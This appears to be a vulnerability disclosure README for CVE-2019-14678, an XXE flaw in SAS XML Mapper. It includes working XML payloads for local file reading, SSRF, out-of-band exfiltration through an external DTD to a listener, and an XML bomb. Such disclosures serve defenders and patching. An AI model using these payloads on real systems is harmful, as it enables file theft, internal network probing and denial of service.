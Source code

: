 # CVE-2019-14678: Unsafe XML Parsing in SAS XML Mapper 

SAS XML Mapper contains an XML parsing vulnerability.
<br/>
The vulnerability was discovered on SAS XML Mapper version 9.45.
<br/>
This vulnerability also affects the XMLV2 LIBNAME engine when the AUTOMAP option is used.
<br/>
This vulnerability can be leveraged in multiple ways:
- Reading files directly from the SAS XML Mapper software
- Server Side Request Forgery (SSRF) attacks
- Exfiltrating files remotely via Out of Band (OOB) attacks
- Potential Denial of Service via resource consumption attacks (Ex. XML Bomb)

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](http://support.sas.com/kb/64/719.html). 

### Proof Of Concept:

#### Reading files directly from the SAS XML Mapper software

By using the "file://" protocol within a XML DOCTYPE object, an attacker can view directly the contents of arbitrary files directly in the SAS XML Mapper application.
This may represent a serious issue if the XML import and export process are automated by another SAS application, which will result in the attacker receiving the full content of the desired file in the response.
<br/>

Content of "XXE2.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

<img src="Local_File_Read.png"/>


#### Server Side Request Forgery (SSRF) attacks

By using Java supported protocols and attacker can launch network attacks targeting other servers within the internal network or exfiltrate remotely certain information of interest:
- "http / https" protocols are commonly used for SSRF with GET parameters
- "smb / file" protocols which in theory can be used to exfiltrate SMB Windows
NetNTLM hashes
- Other protocols which may be leveraged in specific scenarious
<br/>

Content of "XXE.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:4444/SAS-XML-Mapper/XXE" >
%xxe;
]>
```

<img src="SSRF.png"/>


#### Exfiltrating files remotely via Out of Band (OOB) attacks

This attack can be used to exfiltrate simple files remotely from the victim. In this case the content of an example file is extracted by using a HTTP GET via a OOB XXE attack.
<br/>
Other protocols can be used the achieve this behavior (Ex. Exfiltrate via "ftp://" username, password and/or file path).
<br/>

Content of "XXE-file_exfil.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:4444/DTD.txt" >
%xxe;
]>
<foo>&send;</foo>
```
<br/>

Content of "DTD.txt":
```
<!ENTITY % file SYSTEM "file:///home/guest/test_exfil.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:4444/?a=%file;'>">
%all;
```
<br/>

Content of "test_exfil.txt":
```
Very_sensitive_content_that_contains_no_special_characters
```

<img src="OOB.png"/>


#### Potential Denial of Service via resource consumption attacks (Ex. XML Bomb)

XML Resource attacks, such as XML Bombs (A.K.A. Lol Bombs), may result in resource consumption attacks by leveraging DOCTYPE Entities that expand sand consume the RAM of the victim.
<br/>
The default installation does not seem to be notably affected by this vulnerability, but other applications using XMLV2 LIBNAME engine and/or custom installations may result in the SAS XML Mapper application crashing, and/or in the worst case scenario, the OS itself might crash.
<br/>

Content of "XML_Bomb.xml":
```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

<img src="Out_of_Memory.png"/>
